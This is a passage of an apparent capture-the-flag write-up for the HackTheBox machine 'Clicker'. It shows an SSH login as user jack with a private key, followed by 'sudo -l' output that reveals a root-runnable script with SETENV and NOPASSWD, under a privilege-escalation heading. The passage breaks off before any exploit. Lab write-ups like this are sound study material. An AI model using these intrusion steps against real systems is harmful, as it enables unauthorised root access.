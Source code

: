 ```bash
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa jack@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 28 08:26:31 AM UTC 2023

  System load:           0.080078125
  Usage of /:            54.0% of 5.77GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             275
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.232
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f67d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 27 14:56:02 2023 from 10.10.14.190
-bash-5.1$ id; hostname
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
clicker
-bash-5.1$ 
```

# PRIVILEGE ESCALATION TO ROOT

```shell
-bash-5.1$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
-bash-5.1$ 
```
